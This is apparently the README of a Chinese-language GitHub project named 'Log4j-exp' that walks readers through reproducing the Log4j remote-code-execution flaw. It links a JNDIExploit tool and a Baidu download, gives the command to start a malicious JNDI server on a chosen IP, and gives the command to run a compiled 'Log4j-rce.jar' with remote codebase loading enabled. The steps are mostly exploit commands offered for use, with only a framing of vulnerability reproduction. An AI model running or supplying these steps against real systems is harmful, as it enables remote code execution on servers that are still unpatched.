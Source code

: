 # Log4j-exp
帮助你快速复现Log4j漏洞   

首先你可以去百度网盘或者github下载所需要的jar包来更方便快捷的开起jndi   
`https://github.com/feihong-cs/JNDIExploit`    
`https://pan.baidu.com/s/1lxXt-27-i7I_dOUACphVtQ 提取码: nkc5 `   
下载完成之后使用以下命令开一个jndi   
`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i ip`   
下载之后使用idea编译将项目编译为jar之后使用以下命令触发   
`java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar Log4j-rce.jar`    
下方是视频演示教学地址相信我你也可以变成光   
``
